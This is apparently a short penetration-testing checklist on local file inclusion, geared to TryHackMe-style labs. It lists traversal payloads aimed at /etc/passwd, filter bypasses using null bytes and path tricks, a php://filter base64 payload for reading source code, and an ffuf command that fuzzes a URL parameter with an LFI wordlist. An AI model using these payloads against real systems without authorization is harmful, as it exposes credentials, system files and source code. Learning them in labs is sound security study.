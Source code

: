 # 4 LFI

- Check for file inclusions to the file `/etc/passwd`.
- Check for filter bypass
    - Use `.././..` instead of `../..`.
    - Use null bytes `%00` to bypass filters.
    - Use suffix `/etc/passwd/.` to bypass filters.
    - Use relative paths `dir/../../file/path` to bypass filters.
- Check for source code using

```
php://filter/convert.base64-encode/resource=post.php
```

- For nice file path targets see this [TryHackMe](https://tryhackme.com/room/fileinc) room.
- Fuzzing for LFI can be done using ffuf with

```shell
ffuf -u http://$ip/index.php?param=FUZZ -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -fw wordcount
```

- Go for remote file inclusions.
